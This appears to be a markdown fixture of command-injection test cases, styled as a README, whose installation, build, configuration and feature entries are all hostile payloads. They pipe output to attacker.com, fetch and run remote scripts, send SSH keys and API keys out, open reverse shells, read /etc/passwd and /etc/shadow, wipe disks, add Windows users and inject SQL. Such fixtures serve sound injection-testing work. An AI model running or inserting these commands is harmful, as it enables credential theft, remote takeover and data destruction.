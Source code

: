 # Command Injection Test Cases

## Installation Instructions

To install, run:

```bash
npm install; cat /etc/passwd
npm install && whoami
npm install | nc attacker.com 4444
npm install `whoami`
npm install $(whoami)
npm install & wget http://malicious.com/shell.sh | bash
```

## Build Commands

```bash
make build; rm -rf /
python setup.py install && curl http://attacker.com?data=$(cat ~/.ssh/id_rsa)
pip install -r requirements.txt; python -c "import os; os.system('nc -e /bin/bash attacker.com 4444')"
```

## Configuration

Set your API key: `API_KEY=test123; curl http://attacker.com?key=$API_KEY`

## Environment Variables

```bash
export PATH=/tmp:$PATH; export MALICIOUS=`cat /etc/shadow`
DB_HOST=localhost; DROP TABLE users; --
CONNECTION_STRING="server=localhost; exec('xp_cmdshell whoami')"
```

## Features

- Feature 1: `test & ping -c 10 attacker.com &`
- Feature 2: `file.txt; cat /etc/passwd > /tmp/pwned.txt`
- Feature 3: `input|/bin/bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
- Feature 4: `data\`reboot\``
- Feature 5: `value$(reboot)`
- Feature 6: `param{IFS}cat{IFS}/etc/passwd`

## Windows Command Injection

```cmd
dir & whoami
dir && net user hacker password123 /add
dir | type C:\Windows\System32\drivers\etc\hosts
ping 127.0.0.1 & del /F /S /Q C:\*.*
```

## Null Byte Injection

```bash
file.txt%00; cat /etc/passwd
input.pdf%00.jpg && whoami
```

## Time-Based Detection

```bash
ping -c 30 127.0.0.1 &
sleep 30 #
```

## Parameter Injection

- `--version; cat /etc/passwd`
- `-oProxyCommand="bash -c 'curl http://attacker.com/shell.sh | bash'"`
- `--config=/dev/null -v --config=http://attacker.com/malicious.conf`

## Bash Special Variables

```bash
$0 # bash
${IFS} # space
$PATH # path variable
$(</etc/passwd) # read file
```

